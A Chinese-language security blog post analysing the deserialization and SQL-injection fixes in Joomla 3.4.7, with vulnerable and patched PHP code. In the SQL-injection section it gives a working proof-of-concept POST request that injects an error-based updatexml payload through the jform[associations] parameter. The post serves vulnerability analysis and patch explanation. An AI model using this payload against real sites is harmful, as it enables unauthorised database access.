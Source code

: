 ```yaml
---
title: Joomla 3.4.7 修复的反序列化与SQL注入
date: 2015-10-20 08:08:11
category:
  - 网络安全
tag:
  - web安全
  - SQL注入
  - 反序列化

---
```


## 反序列化漏洞修复分析

前一阵子 Joomla 的对象注入很火，而官方3.4.6的修复仅仅是严格过滤了X_FORWARDED_FOR、注释了USER_AGENT存入SESSION那一句，见：[https://github.com/joomla/joomla-cms/commit/995db72ff4eaa544e38b4da3630b7a1ac0146264#diff-aba80b5850bf0435954b29dece250cbfL1021](https://github.com/joomla/joomla-cms/commit/995db72ff4eaa544e38b4da3630b7a1ac0146264#diff-aba80b5850bf0435954b29dece250cbfL1021)这样只是指哪补哪，治标不治本。看来官方上次的修复只是临时解决方案，这次的更新(3.4.7)算是彻底解决了此问题。

上次的对象注入，需要满足三个条件：

1. 自己实现session的处理方式，重新实现了 session 存储的read()和write()方法，但是并没有对 session 的值进行安全处理。
2. Mysql非strict mode下，使用utf8mb4字符 `\xF0\x9D\x8C\x86` 来截断。
3. PHP <= 5.6.13 session中反序列化解析的BUG。

Joomla 官方也只能解决第一个，也就是改进session的处理方式。这次更新，在 libraries/cms/version/version.php 中，将SESSION存储在内部的Registry类对象中，弃用了以前使用 $_SESSION[$namespace][$name] 的方式：

```php
$this->data = new \Joomla\Registry\Registry;
```

并且，在写SESSION的时候会先做base64_encode：

```php
public function close(){
	if ($this->_state !== 'active'){
		// @TODO :: generated error here
		return false;
	}
	$session = JFactory::getSession();
	$data    = $session->getData();

	// Before storing it, let's serialize and encode the JRegistry object
	$_SESSION['joomla'] = base64_encode(serialize($data));

	session_write_close();
	return true;
}
```

这样，$_SESSION 就只剩下了$_SESSION[‘joomla’]，而且$_SESSION[‘joomla’] 只存储了Registry的对象$data，在执行read()和write()时候，SESSION是经过base64_encode后的数据，就不会存在read()之后自动反序列化而导致对象注入了。

在反序列化的时候也不存在unserialize参数可控的情况。（可控的只是$data的成员变量）

```php
if (isset($_SESSION['joomla']) && !empty($_SESSION['joomla'])){
    $data = $_SESSION['joomla'];
    $data = base64_decode($data);
    $this->data = unserialize($data);
}
```

Joomla官方这次的解决方案比较好，不像上次那样治标不治本，这样的态度值得称赞。反观Apache对struts2 漏洞的修复…就不说了。

## SQL注入漏洞分析

### 漏洞分析

代码位于，administrator/components/com_categories/models/category.php，save()函数内：

```php
$assoc = $this->getAssoc();

if ($assoc)
{
	// Adding self to the association
	$associations = $data['associations'];

	foreach ($associations as $tag => $id)
	{
		if (empty($id))
		{
			unset($associations[$tag]);
		}
	}

	// Detecting all item menus
	$all_language = $table->language == '*';

	if ($all_language && !empty($associations))
	{
		JError::raiseNotice(403, JText::_('COM_CATEGORIES_ERROR_ALL_LANGUAGE_ASSOCIATED'));
	}

	$associations[$table->language] = $table->id;

	// Deleting old association for these items
	$db = $this->getDbo();
	$query = $db->getQuery(true)
		->delete('#__associations')
		->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
		->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
	$db->setQuery($query);
	$db->execute();

	if ($error = $db->getErrorMsg())
	{
		$this->setError($error);

		return false;
	}

	if (!$all_language && count($associations))
	{
		// Adding new association for these items
		$key = md5(json_encode($associations));
		$query->clear()
			->insert('#__associations');

		foreach ($associations as $id)
		{
			$query->values($id . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
		}

		$db->setQuery($query);
		$db->execute();

		if ($error = $db->getErrorMsg())
		{
			$this->setError($error);

			return false;
		}
	}
}
```

其中的 $associations 未经过适当处理、我们跟着流程来看看。

首先，`$assoc = $this->getAssoc();` 为 True 的时候整个逻辑才能进来，这个`getAssoc()`是什么呢？跟进getAssoc()的实现(文件的 1234 行)，发现关键是在：

```php
$assoc = JLanguageAssociations::isEnabled();
```

搜索一下，发现 JLanguageAssociations 是 Joomla 的一个多语言插件 [http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler](http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler), 这个插件是 Joomla 自带的，默认没有开启，我们在后台将他开启。

然后，继续看代码，`$associations = $data['associations'];`, $data是post过来的数据，$associations没有经过过滤就传到了：

```php
$query = $db->getQuery(true)
				->delete('#__associations')
				->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
				->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
```

导致SQL注入。

那 Joomla 有没有全局过滤呢？我们看看 Joomla 是如何处理POST数据的。

在 libraries/legacy/controller/form.php , save() 函数，

```php
public function save($key = null, $urlVar = null){
    ...
    $data  = $this->input->post->get('jform', array(), 'array');
    ...
    $validData = $model->validate($form, $data);
```

validate() 函数在 libraries/legacy/model/form.php 302行, 他又调用了libraries/joomla/form/form.php 的filter() 函数，具体实现就不继续了，总之这里的POST参数只是处理了 ‘ XSS and specified bad code. ‘。

最后，构造POC。在修改分类，保存的时候，修改POST数据:

```php
POST /Joomla/administrator/index.php?option=com_categories&extension=com_content&layout=edit&id=19

jform[title]=Joomla!&jform[alias]=joomla&jform[description]=&jform[parent_id]=14&jform[published]=1&jform[access]=1&jform[language]=*&jform[note]=&jform[version_note]=&jform[created_time]=2011-01-01+00:00:01&jform[created_user_id]=945&jform[modified_time]=2015-12-23+08:09:46&jform[modified_user_id]=945&jform[hits]=0&jform[id]=19&jform[metadesc]=&jform[metakey]=&jform[metadata][author]=&jform[metadata][robots]=&jform[associations][en-GB]=2) or updatexml(1,concat(0x7e,(version())),0) -- -&jform[rules][core.create][1]=&jform[rules][core.delete][1]=&jform[rules][core.edit][1]=&jform[rules][core.edit.state][1]=&jform[rules][core.edit.own][1]=&jform[rules][core.create][13]=&jform[rules][core.delete][13]=&jform[rules][core.edit][13]=&jform[rules][core.edit.state][13]=&jform[rules][core.edit.own][13]=&jform[rules][core.create][6]=&jform[rules][core.delete][6]=&jform[rules][core.edit][6]=&jform[rules][core.edit.state][6]=&jform[rules][core.edit.own][6]=&jform[rules][core.create][7]=&jform[rules][core.delete][7]=&jform[rules][core.edit][7]=&jform[rules][core.edit.state][7]=&jform[rules][core.edit.own][7]=&jform[rules][core.create][2]=&jform[rules][core.delete][2]=&jform[rules][core.edit][2]=&jform[rules][core.edit.state][2]=&jform[rules][core.edit.own][2]=&jform[rules][core.create][3]=&jform[rules][core.delete][3]=&jform[rules][core.edit][3]=&jform[rules][core.edit.state][3]=&jform[rules][core.edit.own][3]=&jform[rules][core.create][4]=&jform[rules][core.delete][4]=&jform[rules][core.edit][4]=&jform[rules][core.edit.state][4]=&jform[rules][core.edit.own][4]=&jform[rules][core.create][5]=&jform[rules][core.delete][5]=&jform[rules][core.edit][5]=&jform[rules][core.edit.state][5]=&jform[rules][core.edit.own][5]=&jform[rules][core.create][10]=0&jform[rules][core.delete][10]=&jform[rules][core.edit][10]=&jform[rules][core.edit.state][10]=&jform[rules][core.edit.own][10]=&jform[rules][core.create][12]=0&jform[rules][core.delete][12]=&jform[rules][core.edit][12]=&jform[rules][core.edit.state][12]=&jform[rules][core.edit.own][12]=&jform[rules][core.create][8]=&jform[rules][core.delete][8]=&jform[rules][core.edit][8]=&jform[rules][core.edit.state][8]=&jform[rules][core.edit.own][8]=&jform[params][category_layout]=&jform[params][image]=&jform[params][image_alt]=&jform[extension]=com_content&task=category.apply&2ebbc80d46dda42570c1b1699a58323d=1
```

jform[associations][en-GB] 这个参数就是 $associations，成功注入。

![Jommla](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-02/dWuY7g.jpg)

> 这里打一波广告，我们的Skywolf是可以轻松检测出来的，如下图

![Skywolf](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-02/vwJyVt.jpg)

另外，`libraries/legacy/model/admin.php` 这里也存在着同样的问题。

### 修复方案

官方增加了：

```php
...
$associations = Joomla\Utilities\ArrayHelper::toInteger($associations);
...
$query->values(((int) $id) . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
...
```

将 $associations 中的所有值转换为int型。还有将 $id 强制转换为int。

## 参考资料

1. [http://drops.wooyun.org/papers/11330](http://drops.wooyun.org/papers/11330)
2. [http://drops.wooyun.org/papers/11371](http://drops.wooyun.org/papers/11371)
3. [http://bobao.360.cn/learning/detail/2501.html](http://bobao.360.cn/learning/detail/2501.html)
4. [https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e](https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e)
5. [https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html](https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html)